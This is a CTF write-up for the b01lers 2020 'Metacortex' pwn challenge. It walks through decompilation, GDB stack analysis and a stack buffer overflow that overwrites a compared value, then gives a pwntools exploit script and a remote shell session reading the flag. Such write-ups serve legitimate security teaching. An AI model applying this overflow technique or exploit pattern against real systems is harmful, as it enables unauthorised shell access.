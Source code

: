 # b01lers bootcamp CTF 2020

## Metacortex

> 100
>
> This company is one of the top software companies in the world, because every single employee knows that they are part of a whole. Thus, if an employee has a problem, the company has a problem.
> 
> `nc chal.ctf.b01lers.com 1014`
> 
> [metacortex](metacortex)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _alloca_


## Summary

Classic buffer overflow from one variable to another to pass a check, however `alloca` adds a small twist.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nice!  All mitigations in place.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  long lVar1;
  int iVar2;
  undefined *puVar3;
  undefined *puVar4;
  long in_FS_OFFSET;
  undefined auStack56 [8];
  long *local_30;
  ulong local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puVar3 = auStack56;
  while (puVar3 != auStack56) {
    *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
    puVar3 = puVar3 + -0x1000;
  }
  *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
  local_30 = (long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0);
  puVar4 = puVar3 + -0x10;
  while (puVar4 != puVar3 + -0x10) {
    *(undefined8 *)(puVar4 + -8) = *(undefined8 *)(puVar4 + -8);
    puVar4 = puVar4 + -0x1000;
  }
  *(undefined8 *)(puVar4 + -8) = *(undefined8 *)(puVar4 + -8);
  local_28 = (ulong)(puVar4 + -0x41) & 0xfffffffffffffff0;
  *(long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0) = 0x1011e9;
  *(undefined8 *)(puVar4 + -0x58) = 0x101365;
  puts("Work for the respectable software company, Neo.",puVar4[-0x58]);
  *(undefined8 *)(puVar4 + -0x58) = 0x10137b;
  read(0,local_28,0x80,puVar4[-0x58]);
  lVar1 = *local_30;
  *(undefined8 *)(puVar4 + -0x58) = 0x101395;
  iVar2 = atoi(local_28,puVar4[-0x58]);
  if (lVar1 >> 0x20 == (long)iVar2) {
    *(undefined8 *)(puVar4 + -0x58) = 0x1013a8;
    system("/bin/sh",puVar4[-0x58]);
  }
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  *(undefined8 *)(puVar4 + -0x58) = 0x1013c1;
  __stack_chk_fail();
}
```

To get a shell we need to pass this check: `if (lVar1 >> 0x20 == (long)iVar2) {`.

Following along the decompilation was not very helpful, however the disassembly...

```
00101258 48 f7 f6        DIV        RSI
0010125b 48 6b c0 10     IMUL       RAX,RAX,0x10
0010125f 48 89 c2        MOV        RDX,RAX
00101262 48 81 e2        AND        RDX,-0x1000
         00 f0 ff ff
```

This pattern is from `alloca`.  Think `malloc`, but in stack.

Also note that `local_28` is a pointer (see above), below `local_28` is set from `alloca`:

```c
  local_28 = (ulong)(puVar4 + -0x41) & 0xfffffffffffffff0;
  *(long *)((ulong)(puVar3 + -1) & 0xfffffffffffffff0) = 0x1011e9;
  *(undefined8 *)(puVar4 + -0x58) = 0x101365;
  puts("Work for the respectable software company, Neo.",puVar4[-0x58]);
  *(undefined8 *)(puVar4 + -0x58) = 0x10137b;
  read(0,local_28,0x80,puVar4[-0x58]);
```

At this point instead of trying to figure out the math statically, I opted to use GDB; set a breakpoint just before the read and after the read, and then looked at the stack:

```
gef➤  b *main+397
Breakpoint 1 at 0x1376
gef➤  b *main+402
Breakpoint 2 at 0x137b
gef➤  gef config context.nb_lines_stack 32
gef➤  r
``` 

Stack after `read`:

```
0x00007fffffffe2c0│+0x0000: "AAAAAAAA\n"	 ← $rsp, $rsi
0x00007fffffffe2c8│+0x0008: 0x000000000000000a
0x00007fffffffe2d0│+0x0010: 0x00007ffff7fae4a0  →  0x0000000000000000
0x00007fffffffe2d8│+0x0018: 0x00007ffff7e526bd  →  <_IO_file_setbuf+13> test rax, rax
0x00007fffffffe2e0│+0x0020: 0x00007ffff7fad5c0  →  0x00000000fbad2087
0x00007fffffffe2e8│+0x0028: 0x00007ffff7e48f65  →  <setvbuf+261> xor r8d, r8d
0x00007fffffffe2f0│+0x0030: 0x00005555555553d0  →  <__libc_csu_init+0> endbr64
0x00007fffffffe2f8│+0x0038: 0x00007fffffffe350  →  0x0000000000000000
0x00007fffffffe300│+0x0040: 0x0000555555555100  →  <_start+0> endbr64
0x00007fffffffe308│+0x0048: 0x00007fffffffe440  →  0x0000000000000001
0x00007fffffffe310│+0x0050: 0x00005555555551e9  →  <main+0> endbr64 	 ← $rbx
0x00007fffffffe318│+0x0058: 0x0000555555555241  →  <main+88> mov eax, 0x10
0x00007fffffffe320│+0x0060: 0x00007ffff7fb1fc8  →  0x0000000000000000
0x00007fffffffe328│+0x0068: 0x00007fffffffe310  →  0x00005555555551e9  →  <main+0> endbr64
0x00007fffffffe330│+0x0070: 0x00007fffffffe2c0  →  "AAAAAAAA\n"
0x00007fffffffe338│+0x0078: 0x80214a39ea503000
0x00007fffffffe340│+0x0080: 0x00007fffffffe440  →  0x0000000000000001
0x00007fffffffe348│+0x0088: 0x00005555555553d0  →  <__libc_csu_init+0> endbr64
0x00007fffffffe350│+0x0090: 0x0000000000000000	 ← $rbp
0x00007fffffffe358│+0x0098: 0x00007ffff7de80b3  →  <__libc_start_main+243> mov edi, eax
```

`local_28` (`+0x70`) is pointing `0x90` above `$rbp`.  

> `local_28` is `0x28` above the return address (thanks Ghidra), making it `0x20` above `$rbp`, since `$rbp` is at `+0x90`, subtract `0x20` to find `local_28` in stack (`+0x70`).  Notice is value is pointing to `0x00007fffffffe2c0` (`+0x00`).

The compare is with `local_30` (see the decompile where `lVar1` is set to `*local_30`).  `local_30` is `0x30+8` from `$rbp` (`local_30` in Ghidra is `0x30` from the return address and `$rbp` is just above that).  Since `0x90 - 0x30 + 8 = 104`, if we write `104` bytes we'll overwrite `local_30` and control the compare.

The `read` liberally allows `0x80` (128) bytes, so we're good here.  A payload of a `0` + 103 nulls should get us a shell.

The `0` is for the `atoi`.  `atoi` will stop at the first null.  The nulls in `local_30` give us a matching zero.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./metacortex')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1014)

payload = b'0' + 103 * b'\0'

p.sendafter('Work for the respectable software company, Neo.\n',payload)
p.interactive()
```

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/metacortex/metacortex'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.ctf.b01lers.com on port 1014: Done
[*] Switching to interactive mode
$ id
uid=1000(metacortex) gid=1000(metacortex) groups=1000(metacortex)
$ ls -l
total 36
-r-xr-x--- 1 root metacortex    66 Oct  2 15:31 Makefile
-r--r----- 1 root metacortex    28 Oct  2 15:31 flag.txt
-r-xr-x--- 1 root metacortex 17040 Oct  3 04:07 metacortex
-r-xr-x--- 1 root metacortex   396 Oct  2 15:31 metacortex.c
-r-xr-x--- 1 root metacortex    49 Oct  2 15:31 wrapper.sh
$ cat flag.txt
flag{Ne0_y0uAre_d0ing_well}
```
